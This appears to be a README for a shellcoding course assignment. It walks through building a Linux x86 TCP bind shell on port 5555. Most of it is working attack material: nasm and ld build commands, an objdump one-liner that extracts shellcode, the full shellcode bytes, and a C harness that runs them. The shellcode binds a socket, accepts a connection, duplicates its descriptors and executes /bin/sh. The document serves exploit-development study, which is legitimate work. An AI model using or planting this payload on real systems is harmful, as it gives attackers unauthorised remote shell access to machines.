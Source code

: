 The Assembly code can be found in _Assignment #1_ repo named as _shell.asm_

In this example port 5555 was used to bind the connection. Port 5555 translates to 0x15b3 in hex. Since our system follows the little-endian architecture, the port number has to be loaded in the memory in reverse order.

In order to change the listening port it is suggested to choose the new number convert it into hex, reverse the byte order and compile the program again.

It can be compiled using the following commands respectively:
```zsh
$ nasm -f elf -o shell.o shell.asm
$ ld -o shell shell.o
```

Next step is to extract the actual shellcode from the elf file using this one-liner command:
```zsh
$ objdump -d ./shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
found in [commandlinefu.com](http://www.commandlinefu.com)

The exctracted bytes are:
```
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x6a\x01\x6a\x02\x89\xe1"
"\xcd\x80\x89\xc2\x31\xc0\x50\xb0\x66\xb3\x02\x66\x68\x15\xb3"
"\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\x31\xc0"
"\x50\xb0\x66\xb3\x04\x52\x89\xe1\xcd\x80\x31\xc0\x50\x50\x52"
"\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x02\xb0"
"\x3f\xfe\xc9\xcd\x80\x79\xf8\x31\xc0\x50\x68\x6e\x2f\x73\x68"
"\x68\x2f\x2f\x62\x69\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```

The following code can be used to create the bind_shell_tcp elf and test the produced shellcode. The shellcode must be placed in the shellcode buffer:

```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x6a\x01\x6a\x02\x89\xe1"
"\xcd\x80\x89\xc2\x31\xc0\x50\xb0\x66\xb3\x02\x66\x68\x15\xb3"
"\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x89\xe1\xcd\x80\x31\xc0"
"\x50\xb0\x66\xb3\x04\x52\x89\xe1\xcd\x80\x31\xc0\x50\x50\x52"
"\xb0\x66\xb3\x05\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x02\xb0"
"\x3f\xfe\xc9\xcd\x80\x79\xf8\x31\xc0\x50\x68\x6e\x2f\x73\x68"
"\x68\x2f\x2f\x62\x69\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80";

main()
{

        printf("Shellcode Length:  %d\n", strlen(shellcode));

        int (*ret)() = (int(*)())shellcode;

        ret();

}
```
